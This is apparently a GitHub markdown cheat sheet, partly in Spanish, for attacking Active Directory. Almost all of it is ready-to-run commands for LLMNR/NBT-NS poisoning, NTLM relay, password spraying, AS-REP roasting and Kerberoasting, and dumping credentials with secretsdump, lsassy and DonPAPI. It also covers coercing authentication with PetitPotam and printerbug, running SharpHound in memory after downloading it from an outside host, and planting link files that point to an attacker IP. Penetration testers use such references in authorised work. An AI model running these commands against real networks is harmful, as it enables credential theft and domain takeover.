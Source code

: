 # Enumeracion de Active Directory

Inspired by [Orange Cyberdefense](https://orange-cyberdefense.github.io/ocd-mindmaps/):
and [Mayfly](https://mayfly277.github.io/categories/ad/)

![Mindmap Pentest AD](/Images/image-1.png)

## Reconocimiento

### Enumerar AD

```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.alux.cc
```

### Enumerate the trusts

```bash
ldeep ldap -u username -p 'password' -d domain.com -s ldap://dcIP trusts
```

### Enumerar SMBs

```bash
crackmapexec smb <ip_range>
```

## Enumeracion de Usuarios

## Possible Users

```bash
# Tool https://gist.github.com/superkojiman/11076951
python3 namemash.py >> usernames.txt
```

### Null session

```bash
rpcclient -U "" -N $ip
crackmapexec smb $ip --users
net rpc group members 'Domain Users' -W 'alux.cc' -I $ip -u '%'
enum4linux -U $ip | grep 'user:'
```

### OSINT | Username Anarchy | Kerbrute (Pendiente)

[username-anarchy](https://github.com/urbanadventurer/username-anarchy)

```bash
kerbrute userenum -d alux.cc usernames.txt
```

## Poisoning and Relay

### Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD

#### Linux

[mitm6](https://github.com/dirkjanm/mitm6)
[Responder](https://github.com/lgandx/Responder)

```bash
sudo responder -I tun0
mitm6 
```
#### Windows

[Inveigh](https://github.com/Kevin-Robertson/Inveigh)

```powershell
.\Inveigh.exe
```

### Relay Attacks

>Note that the relayed authentication must be from a user which has Local Admin access to the relayed host and SMB signing must be disabled.

#### Enumerate Unsigned SMB

> signing:False

```bash
crackmapexec smb scope.txt --gen-relay-list relay.txt
```

Before starting responder to poison the answer to LLMNR, MDNS and NBT-NS request we must stop the responder smb and http server as we don’t want to get the hashes directly but we want to relay them to ntlmrelayx.

```bash
sed -i 's/HTTP = On/HTTP = Off/g' /etc/responder/Responder.conf && cat /etc/responder/Responder.conf | grep --color=never 'HTTP ='
sed -i 's/SMB = On/SMB = Off/g' /etc/responder/Responder.conf && cat /etc/responder/Responder.conf | grep --color=never 'SMB ='
#Revert process
sed -i 's/HTTP = Off/HTTP = On/g' /etc/responder/Responder.conf && cat /etc/responder.conf | grep --color=never 'HTTP ='
sed -i 's/SMB = Off/SMB = On/g' /etc/responder/Responder.conf && cat /etc/responder/Responder.conf | grep --color=never 'SMB ='
```

Start ntlmrelay

- `-tf` : list of targets to relay the authentication
- `-of` : output file, this will keep the captured smb hashes just like we did before with responder, to crack them later
- `-smb2support` : support for smb2
- `-socks` : will start a socks proxy to use relayed authentication

```bash
#Install proxychains
sudo apt install proxychains
#Configure /etc/proxychains.conf and add this line
socks4  127.0.0.1 1080
# Start attack
sudo python3 ntlmrelayx.py -tf relay.txt -of netntlm -smb2support -socks
# User obtained
# [*] SMBD-Thread-97: Connection from NORTH/ROBB.STARK@192.168.56.11 controlled, but there are no more targets left!
proxychains python3 secretsdump.py -no-pass 'DOMAIN'/'USER'@'IP'
proxychains lsassy --no-pass -d DOMAIN -u userobtained $ip
proxychains DonPAPI -no-pass 'DOMAINnotdotcom'/'username'@'$ip' -credz creds_robb.txt
proxychains crackmapexec smb $ip -d DOMAINnotdotcom -u username -p password --sam #password could be anything
proxychains python3 smbclient.py -no-pass 'DOMAINnotdotcom'/'username'@'$ip' -debug
proxychains python3 smbexec.py -no-pass 'DOMAINnotdotcom'/'username'@'$ip' -debug
```

#### Mitm6 + ntlmrelayx to ldap (Pendiente)


#### Coerced auth smb + ntlmrelayx to ldaps with drop the mic (Pendiente)

## Valid Username

### Password Spraying

```bash
crackmapexec smb -u usernames.txt -p Password123!
kerbrute passwordspray --user-as-pass --dc $ip -d alux.cc users.txt
use auxiliary/scanner/smb/smb_login
crackmapexec smb $ip -u users.txt -p users.txt --no-bruteforce
```

### ASREPRoast

#### Linux

```bash
impacket-GetNPUsers domain.com/ -request -format hashcat -dc-ip $ip -usersfile users.txt
```
#### Windows

```powershell
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast
```

#### ASREPRoast + CVE-2022-33679

[CVE-2022-33679](https://github.com/Bdenneu/CVE-2022-33679)

```bash
python3 CVE-2022-33679.py domain.com/user <SERVER NAME>
```


## Valid Credentials

### Bloodhound

#### Linux

```bash
bloodhound-python -c All -u user -p 'password' -d domain.com --zip -ns dcIp
certipy find -u user@domain.com -p 'password' -dc-ip DCIP -bloodhound
```
> Si da error con `-c All` lo mejor sera usar solo DCOnly

and import this to [bloodhound ly4k version](https://github.com/ly4k/BloodHound)

```bash
./BloodHound  --no-sandbox --disable-dev-shm-usage
```

#### Windows

[SharpHound](https://github.com/BloodHoundAD/SharpHound)

```powershell
.\sharphound.exe -c All -d domain.com
## Memory Execution
$data = (New-Object System.Net.WebClient).DownloadData('http://ip/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("-d domain.com -c all".Split())
```

### Kerberoasting

```bash
GetUserSPNs.py -request -dc-ip <DCIP> domain.com/username -outputfile hashes.kerberoast
GetUserSPNs.py -request -dc-ip <DCIP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
crackmapexec ldap $ip -u username -p 'password' -d domain.com --kerberoasting KERBEROASTING
```

### ADCS

```bash
certipy find -u user@domain.com -p 'pass' -vulnerable -dc-ip DCIP -stdout > certipy_output.txt
```

### Enum shares

```bash
crackmapexec smb smb.txt -u 'user' -p 'pass' --shares
## Listar smb y archivos
smbmap -r -d 'domain.com' -u 'username' -p 'password' -H ip --depth (default 5) --no-write-check
smbmap -r -d 'domain.com' -u 'username' -p 'password' --host-file listIPs
# Search interesting files inside PC (need access to smb to compoter)
sudo python3 ./scavenger.py smb -t 10.0.0.10 -u administrator -p Password123 -d test.local
sudo python3 ./scavenger.py smb -t smb.txt -u administrator -p Password123 -d test.local
```

#### Create link 

```bash
crackmapexec smb $ip -u username -p 'pass' -d domain.com -M slinky -o NAME=.thumbs.db SERVER=attackerIP
# Clean up
crackmapexec smb $ip -u username -p 'pass; -d domain.com -M slinky -o NAME=.thumbs.db SERVER=attacker_ip CLEANUP=true
```

### Enum MachineAccountQuota 

```bash
crackmapexec ldap ip -u username -p password -d domain.com -M MAQ
```

### Enum dns

[dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)
[adidnsdump](https://github.com/dirkjanm/adidnsdump)
```bash
python3 dnstool.py -u 'domain.com\username' -p 'password' --record '*' --action query DCIP
adidnsdump -u 'domain.com\username' -p 'password' pc.domain.com
```

### Coerce

> Iniciar listener antes 

[Coercer.py](https://github.com/p0dalirius/Coercer)
[PetitPotam.py](https://github.com/topotam/PetitPotam)
[printerbug.py](https://github.com/dirkjanm/krbrelayx/)

```bash
python3 rpcdump.py domain.com/username:Password@target | grep MS-RPRN
#Protocol: [MS-RPRN]: Print System Remote Protocol 
python3 printerbug.py domain.com/username:'Password'@targetIP listenerIP
#Authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions
python3 PetitPotam.py -u 'username' -p 'password' -d 'domain.com' listenerIP targetIP
#Automatically coerce a Windows server to authenticate on an arbitrary machine through many methods
python3 Coercer.py coerce -u 'username' -p 'password' -d 'domain.com' -t targetIP -l listenerIP --always-continue
```

